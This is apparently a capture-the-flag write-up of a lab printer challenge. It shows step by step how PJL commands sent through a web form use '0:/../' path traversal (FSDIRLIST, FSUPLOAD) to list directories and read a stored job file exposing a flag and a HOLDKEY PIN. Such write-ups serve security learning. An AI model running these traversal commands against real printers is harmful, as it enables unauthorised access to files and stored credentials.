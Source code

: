 > My uncle isn't allowing me to print documents. He's off to vacation and I need a PIN to unlock this printer. All I found is a web server where this printer is managed from. Can you help me with this situation ?
#### Steps
1. Start by navigating to the webpage by pasting the ip:port into browser
2. The only tab that brough up a new page was `Job Controls`, which brough up the path `/jobs`
3. Sumbitting text brought up the path `/printer`
4. This is evident when inspecting the html code
```html
<form action="printer" method="post">
      <input type="text" placeholder="@PJL INFO ID" name="pjl">
      <input type="submit" value="Send">
</form>
```
5. Submitting `@PJL INFO ID` returns `HTB Printer`
6. PJL stands for HP Printer Job Language, so I looked for more PJL commands from HP which brought me to this [document](https://developers.hp.com/system/files/PJL_Technical_Reference_Manual.pdf)
7. I also found a reference for hacking printers [here](http://hacking-printers.net/wiki/index.php/Credential_disclosure), but that was not needed for this challenge
8. The main command I used was `FSDIRLIST` to view and traverse the filesystem
```shell
# view current directory
@PJL FSDIRLIST NAME="0:" ENTRY=1

# view parent directory
@PJL FSDIRLIST NAME="0:/../" ENTRY=1
```
9. Once in the parent directory, I saw a home folder listed
```shell
# navigating to home folder
@PJL FSDIRLIST NAME="0:/../home/" ENTRY=1
```
10. The `home` folder contained a folder called `default`, which contained a file `readysize`
11. To see file contents, we use `FSUPLOAD`
```shell
# command
@PJL FSUPLOAD NAME="0:/../home/default/readyjob"

# contents
@PJL FSUPLOAD FORMAT:BINARY NAME="0:/../home/default/readyjob" OFFSET=0 SIZE=457
%-12345X@PJL @PJL COMMENT FLAG = "HTB{w4lk_4nd_XXXXXX}" @PJL JOB NAME = "JetDirectBoot Job" @PJL SET
USERNAME="default" @PJL SET HOLDKEY="8214" @PJL SET ORIENTATION = PORTAIT @PJL SET QTY = 1 @PJL SET DUPLEX = ON @PJL SET RESOLUTION = 600 @PJL SET OUTBIN = LOWER
@PJL COMMENT START PCL JOB @PJL ENTER LANGUAGE = PCL %-12345X@PJL @PJL EOJ %-12345X
```

